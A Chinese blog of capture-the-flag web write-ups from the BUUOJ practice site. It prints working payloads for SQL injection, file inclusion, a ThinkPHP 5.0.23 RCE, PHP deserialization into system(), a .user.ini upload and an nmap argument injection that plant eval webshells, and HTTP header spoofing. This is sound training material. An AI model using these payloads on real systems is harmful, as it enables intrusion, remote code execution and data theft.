by:gyy

刷题，buuoj记录

<!--more-->

---

# [CSAWQual 2016]i_got_id


咱也不懂perl...

发现了文件上传的地方



发现会把上传的文件直接显示在网页上

查了下原理

##### perlparam()任意文件读取

```php

if ($cgi->upload('file')) {
    my $file = $cgi->param('file');
    while (<$file>) {
        print "$_";
        print "<br />";
    }
}
```

 如上代码将上传的文件原样输出到网页 

知识点： param()函数会返回一个列表的文件但是只有第一个文件会被放入到下面的file变量中。而对于下面的读文件逻辑来说，如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。这样，我们的利用方法就出现了：在正常的上传文件前面加上一个文件上传项ARGV，然后在URL中传入文件路径参数，这样就可以读取任意文件了。 

ARGV------命令行参数

于是抓包



修改为：




---


# [DDCTF 2019]homebrew event loop



source code

```python
from flask import Flask, session, request, Response
import urllib

app = Flask(__name__)
app.secret_key = '*********************'  # censored
url_prefix = '/d5afe1f66147e857'


def FLAG():
    return '*********************'  # censored


def trigger_event(event):
    session['log'].append(event)
    if len(session['log']) > 5:
        session['log'] = session['log'][-5:]
    if type(event) == type([]):
        request.event_queue += event
    else:
        request.event_queue.append(event)


def get_mid_str(haystack, prefix, postfix=None):
    haystack = haystack[haystack.find(prefix)+len(prefix):]
    if postfix is not None:
        haystack = haystack[:haystack.find(postfix)]
    return haystack


class RollBackException:
    pass


def execute_event_loop():
    valid_event_chars = set(
        'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_0123456789:;#')
    resp = None
    while len(request.event_queue) > 0:
        # `event` is something like "action:ACTION;ARGS0#ARGS1#ARGS2......"
        event = request.event_queue[0]
        request.event_queue = request.event_queue[1:]
        if not event.startswith(('action:', 'func:')):
            continue
        for c in event:
            if c not in valid_event_chars:
                break
        else:
            is_action = event[0] == 'a'
            action = get_mid_str(event, ':', ';')
            args = get_mid_str(event, action+';').split('#')
            try:
                event_handler = eval(
                    action + ('_handler' if is_action else '_function'))
                ret_val = event_handler(args)
            except RollBackException:
                if resp is None:
                    resp = ''
                resp += 'ERROR! All transactions have been cancelled. <br />'
                resp += '<a href="./?action:view;index">Go back to index.html</a><br />'
                session['num_items'] = request.prev_session['num_items']
                session['points'] = request.prev_session['points']
                break
            except Exception, e:
                if resp is None:
                    resp = ''
                # resp += str(e) # only for debugging
                continue
            if ret_val is not None:
                if resp is None:
                    resp = ret_val
                else:
                    resp += ret_val
    if resp is None or resp == '':
        resp = ('404 NOT FOUND', 404)
    session.modified = True
    return resp


@app.route(url_prefix+'/')
def entry_point():
    querystring = urllib.unquote(request.query_string)
    request.event_queue = []
    if querystring == '' or (not querystring.startswith('action:')) or len(querystring) > 100:
        querystring = 'action:index;False#False'
    if 'num_items' not in session:
        session['num_items'] = 0
        session['points'] = 3
        session['log'] = []
    request.prev_session = dict(session)
    trigger_event(querystring)
    return execute_event_loop()

# handlers/functions below --------------------------------------


def view_handler(args):
    page = args[0]
    html = ''
    html += '[INFO] you have {} diamonds, {} points now.<br />'.format(
        session['num_items'], session['points'])
    if page == 'index':
        html += '<a href="./?action:index;True%23False">View source code</a><br />'
        html += '<a href="./?action:view;shop">Go to e-shop</a><br />'
        html += '<a href="./?action:view;reset">Reset</a><br />'
    elif page == 'shop':
        html += '<a href="./?action:buy;1">Buy a diamond (1 point)</a><br />'
    elif page == 'reset':
        del session['num_items']
        html += 'Session reset.<br />'
    html += '<a href="./?action:view;index">Go back to index.html</a><br />'
    return html


def index_handler(args):
    bool_show_source = str(args[0])
    bool_download_source = str(args[1])
    if bool_show_source == 'True':

        source = open('eventLoop.py', 'r')
        html = ''
        if bool_download_source != 'True':
            html += '<a href="./?action:index;True%23True">Download this .py file</a><br />'
            html += '<a href="./?action:view;index">Go back to index.html</a><br />'

        for line in source:
            if bool_download_source != 'True':
                html += line.replace('&', '&amp;').replace('\t', '&nbsp;'*4).replace(
                    ' ', '&nbsp;').replace('<', '&lt;').replace('>', '&gt;').replace('\n', '<br />')
            else:
                html += line
        source.close()

        if bool_download_source == 'True':
            headers = {}
            headers['Content-Type'] = 'text/plain'
            headers['Content-Disposition'] = 'attachment; filename=serve.py'
            return Response(html, headers=headers)
        else:
            return html
    else:
        trigger_event('action:view;index')


def buy_handler(args):
    num_items = int(args[0])
    if num_items <= 0:
        return 'invalid number({}) of diamonds to buy<br />'.format(args[0])
    session['num_items'] += num_items
    trigger_event(['func:consume_point;{}'.format(
        num_items), 'action:view;index'])


def consume_point_function(args):
    point_to_consume = int(args[0])
    if session['points'] < point_to_consume:
        raise RollBackException()
    session['points'] -= point_to_consume


def show_flag_function(args):
    flag = args[0]
    # return flag # GOTCHA! We noticed that here is a backdoor planted by a hacker which will print the flag, so we disabled it.
    return 'You naughty boy! ;) <br />'


def get_flag_handler(args):
    if session['num_items'] >= 5:
        # show_flag_function has been disabled, no worries
        trigger_event('func:show_flag;' + FLAG())
    trigger_event('action:view;index')


if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0')

```

题目中有flask，网站内容和购买有关，盲猜flask session逻辑漏洞



拿去`flask_session_cookie_manager`解密



`{"log":[{" b":"YWN0aW9uOnZpZXc7aW5kZXg="},{" b":"YWN0aW9uOnZpZXc7aW5kZXg="}],"num_items":0,"points":3}`

base64再解密得

`{"log":[{" b":"action:view;index"},{" b":"action:view;index"}],"num_items":0,"points":3}`

分析serve.py

先找flag



发现在get_flag_handler函数里，而条件是`session['num_items'] >= 5`



再跳到buy_handler函数里



关键逻辑

**num_items数目先增，然后再扣point，如果point不够再把num_items扣回去**

然后就不会了

开始分析大佬的WP

- 仔细分析execute_event_loop，会发现里面有一个eval函数，而且是可控的！ 

- 利用eval()可以导致任意命令执行，使用注释符可以 bypass 掉后面的拼接部分。 

- 若让eval()去执行trigger_event()，并且在后面跟两个命令作为参数，分别是buy和get_flag，那么buy和get_flag便先后进入队列。 

- 根据顺序会先执行buy_handler()，此时consume_point进入队列，排在get_flag之后，我们的目标达成。 

最终payload：

```
action:trigger_event%23;action:buy;5%23action:get_flag;
```

不知道编码问题？`#`必须写成 `%23`



拿去解密得



base64解密得

```
{"log":[{" b":"action:trigger_event#;action:buy;5#action:get_flag;"},[{" b":"action:buy;5"},{" b":"action:get_flag;"}],[{" b":"func:consume_point;5"},{" b":"action:view;index"}],{" b":"func:show_flag;flag{f0c04d65-ffa9-472b-9263-1e308ad45fd8}"},{" b":"action:view;index"}],"num_items":0,"points":3}`
```

flag即在其中


---

# [GWCTF 2019]枯燥的抽奖


看源码有个hidden标签，直接去掉得到源码

```php
<?php
#这不是抽奖程序的源代码！不许看！
header("Content-Type: text/html;charset=utf-8");
session_start();
if(!isset($_SESSION['seed'])){
$_SESSION['seed']=rand(0,999999999);
}

mt_srand($_SESSION['seed']);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
$str_show = substr($str, 0, 10);
echo "<p id='p1'>".$str_show."</p>";


if(isset($_POST['num'])){
    if($_POST['num']===$str){x
        echo "<p id=flag>抽奖，就是那么枯燥且无味，给你flag{xxxxxxxxx}</p>";
    }
    else{
        echo "<p id=flag>没抽中哦，再试试吧</p>";
    }
}
show_source("check.php");
```

php伪随机数爆破

用php_mt_seed

扔虚拟机里make



然后用python脚本转化得到的数据

```python
str1='abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'
str2='uG8C1Wg91B'
str3 = str1[::-1]     # reverse
length = len(str2)    # 10
res=''
for i in range(len(str2)):
    for j in range(len(str1)):
        if str2[i] == str1[j]:
            res+=str(j)+' '+str(j)+' '+'0'+' '+str(len(str1)-1)+' '
            break
print (res)
```




然后运行`./php_mt_seed 54 54 0 61 45 45 0 61 54 54 0 61 7 7 0 61 59 59 0 61 35 35 0 61 4 4 0 61 15 15 0 61 53 53 0 61 40 40 0 61`

爆破得`394409044`



回去跑出完整字符串



`SJShX9epREbTBLfdc4Gu`

回去提交出flag




----


# [N1CTF 2018]eating_cms

打开就是登陆界面



猜想SQL注入，发现过滤引号，暂时放弃这条路



不给扫目录，盲猜访问`register.php`，还真有

注册用户登陆进去



发现url猫腻，文件包含，利用伪协议读取一下index



```
PD9waHAKcmVxdWlyZV9vbmNlICJmdW5jdGlvbi5waHAiOwppZihpc3NldCgkX1NFU1NJT05bJ2xvZ2luJ10gKSl7CiAgICBIZWFkZXIoIkxvY2F0aW9uOiB1c2VyLnBocD9wYWdlPWluZm8iKTsKfQplbHNlewogICAgaW5jbHVkZSAidGVtcGxhdGVzL2luZGV4Lmh0bWwiOwp9Cj8+
```

解密得index.php源码

```php
<?php
require_once "function.php";
if(isset($_SESSION['login'] )){
    Header("Location: user.php?page=info");
}
else{
    include "templates/index.html";
}
?>
```

再读一下user.php

`user.php`

```php
<?php
require_once("function.php");
if( !isset( $_SESSION['user'] )){
    Header("Location: index.php");

}
if($_SESSION['isadmin'] === '1'){
    $oper_you_can_do = $OPERATE_admin;
}else{
    $oper_you_can_do = $OPERATE;
}
//die($_SESSION['isadmin']);
if($_SESSION['isadmin'] === '1'){
    if(!isset($_GET['page']) || $_GET['page'] === ''){
        $page = 'info';
    }else {
        $page = $_GET['page'];
    }
}
else{
    if(!isset($_GET['page'])|| $_GET['page'] === ''){
        $page = 'guest';
    }else {
        $page = $_GET['page'];
        if($page === 'info')
        {
//            echo("<script>alert('no premission to visit info, only admin can, you are guest')</script>");
            Header("Location: user.php?page=guest");
        }
    }
}
filter_directory();
//if(!in_array($page,$oper_you_can_do)){
//    $page = 'info';
//}
include "$page.php";
?>
```


再读一下function.php

`function.php`

```php
<?php
session_start();
require_once "config.php";
function Hacker()
{
    Header("Location: hacker.php");
    die();
}


function filter_directory()
{
    $keywords = ["flag","manage","ffffllllaaaaggg"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);
    parse_str($uri['query'], $query);
//    var_dump($query);
//    die();
    foreach($keywords as $token)
    {
        foreach($query as $k => $v)
        {
            if (stristr($k, $token))
                hacker();
            if (stristr($v, $token))
                hacker();
        }
    }
}

function filter_directory_guest()
{
    $keywords = ["flag","manage","ffffllllaaaaggg","info"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);
    parse_str($uri['query'], $query);
//    var_dump($query);
//    die();
    foreach($keywords as $token)
    {
        foreach($query as $k => $v)
        {
            if (stristr($k, $token))
                hacker();
            if (stristr($v, $token))
                hacker();
        }
    }
}

function Filter($string)
{
    global $mysqli;
    $blacklist = "information|benchmark|order|limit|join|file|into|execute|column|extractvalue|floor|update|insert|delete|username|password";
    $whitelist = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'(),_*`-@=+><";
    for ($i = 0; $i < strlen($string); $i++) {
        if (strpos("$whitelist", $string[$i]) === false) {
            Hacker();
        }
    }
    if (preg_match("/$blacklist/is", $string)) {
        Hacker();
    }
    if (is_string($string)) {
        return $mysqli->real_escape_string($string);
    } else {
        return "";
    }
}

function sql_query($sql_query)
{
    global $mysqli;
    $res = $mysqli->query($sql_query);
    return $res;
}

function login($user, $pass)
{
    $user = Filter($user);
    $pass = md5($pass);
    $sql = "select * from `albert_users` where `username_which_you_do_not_know`= '$user' and `password_which_you_do_not_know_too` = '$pass'";
    echo $sql;
    $res = sql_query($sql);
//    var_dump($res);
//    die();
    if ($res->num_rows) {
        $data = $res->fetch_array();
        $_SESSION['user'] = $data[username_which_you_do_not_know];
        $_SESSION['login'] = 1;
        $_SESSION['isadmin'] = $data[isadmin_which_you_do_not_know_too_too];
        return true;
    } else {
        return false;
    }
    return;
}

function updateadmin($level,$user)
{
    $sql = "update `albert_users` set `isadmin_which_you_do_not_know_too_too` = '$level' where `username_which_you_do_not_know`='$user' ";
    echo $sql;
    $res = sql_query($sql);
//    var_dump($res);
//    die();
//    die($res);
    if ($res == 1) {
        return true;
    } else {
        return false;
    }
    return;
}

function register($user, $pass)
{
    global $mysqli;
    $user = Filter($user);
    $pass = md5($pass);
    $sql = "insert into `albert_users`(`username_which_you_do_not_know`,`password_which_you_do_not_know_too`,`isadmin_which_you_do_not_know_too_too`) VALUES ('$user','$pass','0')";
    $res = sql_query($sql);
    return $mysqli->insert_id;
}

function logout()
{
    session_destroy();
    Header("Location: index.php");
}

?>
```

就这样根据源码的数据...读到了以下界面

`config.php`

```php
<?php
error_reporting(E_ERROR | E_WARNING | E_PARSE);
define(BASEDIR, "/var/www/html/");
define(FLAG_SIG, 1);
$OPERATE = array('userinfo','upload','search');
$OPERATE_admin = array('userinfo','upload','search','manage');
$DBHOST = "localhost";
$DBUSER = "root";
$DBPASS = "Nu1LCTF2018!@#qwe";
//$DBPASS = "";
$DBNAME = "N1CTF";
$mysqli = @new mysqli($DBHOST, $DBUSER, $DBPASS, $DBNAME);
if(mysqli_connect_errno()){
    echo "no sql connection".mysqli_connect_error();
    $mysqli=null;
    die();
}
?>
```


`guest.php`

```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly ");
}
include "templates/guest.html";
?>
```


`info.php`

```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly ");
}
include "templates/info.html";
?>
```

`ffffllllaaaaggg`被过滤

##### 利用 `parse_url`解析漏洞 

 当url种出现下面这种情况的url，会解析错误，返回false
`//user.php?page=php://filter/convert.base64-encode/resource=ffffllllaaaaggg` 


`ffffllllaaaaggg.php`

```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}else {
    echo "you can find sth in m4aaannngggeee";
}
?>
```


`m4aaannngggeee.php`

```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}
include "templates/upload.html";

?>
```


访问`./templates/upload.html`



赶紧上传个，结果白高兴一场



利用user.php再读`upllloadddd.php`

```php
<?php
$allowtype = array("gif","png","jpg");
$size = 10000000;
$path = "./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/";
$filename = $_FILES['file']['name'];
if(is_uploaded_file($_FILES['file']['tmp_name'])){
    if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
        die("error:can not move");
    }
}else{
    die("error:not an upload file！");
}
$newfile = $path.$filename;
echo "file upload success<br />";
echo $filename;
$picdata = system("cat ./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/".$filename." | base64 -w 0");
echo "</img>";
if($_FILES['file']['error']>0){
    unlink($newfile);
    die("Upload file error: ");
}
$ext = array_pop(explode(".",$_FILES['file']['name']));
if(!in_array($ext,$allowtype)){
    unlink($newfile);
}
?>
```


访问`./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/`



确认存在文件上传考点，回去找上传点，访问`./user.php?page=m4aaannngggeee`



上传发现



表明无法通过上传一句话木马获得shell

后来分析代码发现漏洞

#####  文件名代码执行漏洞



扫目录



flag即在`flag_233333`



成功


---

# [Black Watch 入群题]Web

打开



有登陆，尝试登陆界面sql注入



查看源码，在webpack发现猫腻



登录界面注入无果

转`content_list.php`

发现请求文章时会带id参数，尝试注入





确认存在注入

过滤了`+` `空格` `and`



 输入数据库不存在的id或产生语法时没有回显，初步判断为布尔盲注

##### 布尔盲注

写个tamper替换空格等字符

```shell
python2 sqlmap.py -u "http://49a772d8-a3af-40d4-89c2-eaa7bc0fb974.node3.buuoj.cn/backend/content_detail.php?id=0"  --delay=0.07 --dbms=mysql --technique=B --tamper=mytamper.py --user-agent="chrome" --risk=3 --dump
```

参数：

```
--delay 延迟注入，网站快速注入会返回429，Too Many Requirements
--dbms 数据库类型
--technique 注入方式，这里B指bool布尔盲注
--tamper 使用的tamper
--user-agent 题目判断UA
--risk 风险等级
--dump 数据库全部拖下来
```

运行提示

```shell
[INFO] GET parameter 'id' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable
```

证实为布尔盲注



发现跑出了数据库名`news`但跑不出表名



参考师傅的答案，写脚本开始跑

payload：

```
1^if((select(ascii(substr((select(database())),{},1))={})),1,0)^1#
```

一段一段分析

```
database() : 数据库
(select(database()) : 选择数据库
substr函数 : 指截取参数1字符串，从参数2的位置开始截取参数3位
substr((select(database())),{},1) : 指从数据库名第{}的位置截取一位
ascii(substr((select(database())),{},1)) : 指转化为ASCII码值
select : 如下图所示
select(ascii(substr((select(database())),{},1))={}) : select ascii={}，判断是否和某个ascii码值相等，如图
if(a,1,0) : 相当于三目运算符 :? ,即 a:1?0
^ : 异或符
```











很明显，第一个`{}`指的是数据库名的第i位，第二个`{}`指对第i的ASCII码值进行比较




数据库名为`news`，继续跑表名

payload：

```
1^if((select(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('news')),{},1))={})),1,0)^1#
```




再跑列名

payload：

```
1^if((select(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)like('admin')),{},1))={})),1,0)^1#
```




跑数据了

payload：

```
1^if((select(ascii(substr((select(group_concat(id))from(admin)),{},1))={})),1,0)^1#
1^if((select(ascii(substr((select(group_concat(username))from(admin)),{},1))={})),1,0)^1#
1^if((select(ascii(substr((select(group_concat(password))from(admin)),{},1))={})),1,0)^1#
1^if((select(ascii(substr((select(group_concat(is_enable))from(admin)),{},1))={})),1,0)^1#

```


其实没必要跑那么多，（跑着好玩

出来表有两行



`username`：3ab8d14c,dcaf5eed



`password`：2a790c21,f285e92a



`is_enable`：0,1



直接去拿enbale的登陆即可

表结构是这样的


数据库名:news

表名:admin

| id   | username | password | is_enable |
| ---- | -------- | -------- | --------- |
| 1    | 3ab8d14c | 2a790c21 | 0         |
| 2    | dcaf5eed | f285e92a | 1         |


登陆成功




----


# [SUCTF 2019]CheckIn

##### 文件上传



上来很直白，传个码看看



改后缀

文件内容还检查，加`GIF98a`可以



会返回上传文件夹目录的数组，目录穿越上传不行，php过滤死了，传含码图片，过滤`<?`，而`<%`也不解析，路走不通。

传个`.htaccess`



但是好像没解析...



经查询，nginx使用`.user.ini`自定义设置

于是传个`.user.ini`

```ini
.user.ini

GIF89a                  //绕过exif_imagetype()

auto_prepend_file=gyy.jpg //指定在主文件之前自动解析的文件的名称，并包含该文件，就像使用require函数调用它一样。它包含在所有php文件前先执行
auto_append_file=gyy.jpg  //解析后进行包含，它包含在所有php文件执行后执行
```



ok,再传码



然后直接访问`index.php`就可以了，因为`.user.ini`里写了，提前加载了`gyy.jpg`文件，而里面是我们写好的码，shell直接连上




----


# [RoarCTF 2019]Easy Java

记录一道特殊的题， 很简单的web题，但是需要对java容器和项目存放位置比较了解，作为web选手，应该要对几大语言的容器，项目环境，有所了解。

考点：**WEB-INF/web.xml泄露**

```
WEB-INF主要包含一下文件或目录:
/WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。
/WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中
/WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件
/WEB-INF/src/：源码目录，按照包名结构放置各个java文件。
/WEB-INF/database.properties：数据库配置文件
漏洞检测以及利用方法：通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码
```



打开为登陆界面，SQL注入无果，点`help`，发现url变化为`./Download?filename=help.docx`

猜测源码泄露，尝试伪协议读取源码`php://filter/convert.base64-encode/resource=help.docx`发现报错为`java.io.FileNotFoundException:{php://filter/convert.base64-encode/resource=help.docx}`

结合题目名，猜测JAVA-WEB应用

报错是tomcat，尝试包含tomcat的web.xml，更改方式为POST请求，传参`filename=WEB-INF/web.xml`



尝试请求`/Flag`



 结合tomcat的项目存放路径经验试试下载FlagController.class 

传参`filename=WEB-INF/classes/com/wm/ctf/FlagController.class`



直接访问下载也行，抓包请求也行，base64解码一下发现flag



---


# [BUUCTF 2018]Online Tool

nmap工具的利用

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

考两个函数`escapeshellarg`

 **escapeshellcmd()** 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 

`escapeshellarg`

 **escapeshellarg()** 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，并且还是确保安全的。 


然而之前就爆出了漏洞... 当先使用 escapeshellarg 再使用 escapeshellcmd 时，就可能导致命令参数注入。 

如

`curl '127.0.0.1'\\'' -v -d a=1\'`

相当于`curl 127.0.0.1\ -v -d a=1'`

字符转义了


查阅nmap帮助手册`nmap -h`

首先想读取文件，利用`-iL`参数



发现不行，cmd可以，但执行后没有回显，以下为本地环境





关键在于没法构造，毕竟两函数有转义的，于是有了另一种方法，输出。

利用`-oG`参数



直接写一句话木马就好了

payload=`./?host='<?php eval($_POST[gyy]);?> -oG shell.php '`

最后和单引号要有空格，因为让system执行时最后的参数是`shell.php`而不是`shell.php\'`，因为 **escapeshellarg()**和**escapeshellcmd()** 有转义，单引号是因为函数会检查字符串匹配引号的情况



查看文件



拿到shell



本地文件是这样的，可以看到包含了一句话木马



---


# [GKCTF2020]cve版签到

#####  cve-2020-7066 

 **将get_headers（）与用户提供的URL一起使用时**，如果URL包含零（\ 0）字符，则URL将被静默地**截断**。**这可能会导致某些软件对get_headers（）的目标做出错误的假设，并可能将某些信息发送到错误的服务器。** 

题目讲明为CVE，排除SSRF

在响应头中发现hint



访问`./?url=http://localhost%00www.ctfhub.com`



`Tips: Host must be end with '123'`

访问`./?url=http://127.0.0.123%00www.ctfhub.com`即可



主要考一个CVE，记录一下

---


# [GXYCTF2019]禁止套娃

git泄露

一点提示都没有！可恶

`robots.txt`没有，响应头没有，随手访问了个`./.git/`结果真有，直接上GitHack




强烈谴责！GitHack重新下个就好了，旧的这个还不管用，GitHack还有假的？？？




得到源码

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>

```

很好，看到这个`';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp']`妥妥的无参数RCE

过滤一堆

先扫当前目录

payload=`./?exp=print_r(scandir(current(localeconv())));`

```shell
localeconv(): 返回一包含本地数字及货币格式信息的数组。如下图
current(): 取数组中第一个元素，返回数组中的当前单元。
current(localeconv()): 取符号.
scandir(): 扫描目录
scandir(current(localeconv()))： 等同于scandir(.)，即扫描当前目录
print_r()： 输出
```


localeconv()如图所示


current(localeconv())取到了符号.




发现了flag.php

下面要取flag.php中的内容，flag.php在倒数第二组

由于没有禁用session，利用session~~（我最喜欢~~



其他方法

payload=`./?exp=readfile(array_rand(array_flip(scandir(current(localeconv())))));`

```
array_flip()： 交换数组的键和值
array_rand()： 从数组中随机取出一个或多个单元
readfile()： 读文件
```



有点小运气嗷，可以写脚本跑，反正随机嘛...概率问题

读源码方法

```
file_get_contents()： 本题被ban
view-source:
highlight_file()
show_source()
readfile()
```


----

# [BJDCTF 2nd]old-hack

##### thinkphp5.0.23 远程代码执行 漏洞

payload：

POST

```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=cat /flag
```

---


# [网鼎杯 2020 朱雀组]phpweb


打开一会发现网页自动刷新了，抓包看看



自动刷新

```
setTimeout("document.form1.submit()",5000)
```

怀疑调用函数，尝试传参

```
func=file_get_contents&p=index.php
```

得到源码

```php
<?php
$disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
function gettime($func, $p) {
    $result = call_user_func($func, $p);
    $a= gettype($result);
    if ($a == "string") {
        return $result;
    } else {return "";}
}
class Test {
    var $p = "Y-m-d h:i:s a";
    var $func = "date";
    function __destruct() {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
}
$func = $_REQUEST["func"];
$p = $_REQUEST["p"];

if ($func != null) {
    $func = strtolower($func);
    if (!in_array($func,$disable_fun)) {
        echo gettime($func, $p);
    }else {
        die("Hacker...");
    }
}
?>
```

分析发现禁用了不少函数，调用了`call_user_func()`函数，可能存在命令执行。

`gettype()`函数限制执行后返回必须为String类型。

观察发现，本题只对传入参数进行一次waf，代码中还给了个类Test，类中调用`gettime()`函数不会被waf，于是可用序列化方法，将代码序列化传入，再反序列化执行命令。

尝试传参

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:2:"ls";s:4:"func";s:6:"system";}
```



再扫根目录文件

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
```



根目录没发现flag，利用system来找一下，`find / -name fla*`



发现了奇怪的东西，打开即为flag



payload：

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```


---


# [BJDCTF 2nd]假猪套天下第一

##### Http Header

考验http请求头，打开随便登陆底部源码提示`<!-- L0g1n.php -->`



1. 提示`Sorry, this site will be available after totally 99 years!`

修改Cookie中`time=9999999999`


2. 提示`Sorry, this site is only optimized for those who comes from localhost`

添加`X-Forwarded-For: 127.0.0.1`

提示`Do u think that I dont know X-Forwarded-For?<br>Too young too simple sometimes naive·`

添加`Client-IP: 127.0.0.1`


3. 提示`Sorry, this site is only optimized for those who come from gem-love.com`

添加`Referer: gem-love.com`


4. 提示`Sorry, this site is only optimized for browsers that run on Commodo 64`

资料：科摩多64位安全浏览器的UA为 Commodore 64 

修改`User-Agent: Commodore 64`


5. 提示`Sorry, this site is only optimized for those whose email is root@gem-love.com`

添加`Sorry, this site is only optimized for those who use the http proxy of y1ng.vip<br> if you dont have the proxy, pls contact us to buy, ￥100/Month`


6. 提示`Sorry, this site is only optimized for those who use the http proxy of y1ng.vip<br> if you dont have the proxy, pls contact us to buy, ￥100/Month`

添加`Via: y1ng.vip`


提示

```
Sorry, even you are good at http header, you're still not my admin.<br> Althoungh u found me, u still dont know where is flag 
<!--{一段base64编码}-->
```

base64解码注释得flag，可能原题这边只是给下一题的方向，没有直接给flag，这边做题简单化了吧...

最终payload：

```php
GET /L0g1n.php HTTP/1.1
Host: node3.buuoj.cn:26256
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Commodore 64 text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=1762cb225c986d-0970f0908a83e6-3323766-144000-1762cb225ca565; PHPSESSID=qo3u19su6i7oha2lte6grem4t6; time=9999999999
Connection: close
X-Forwarded-For: 127.0.0.1
Client-IP: 127.0.0.1
Referer: gem-love.com
From: root@gem-love.com
Via: y1ng.vip
```




---


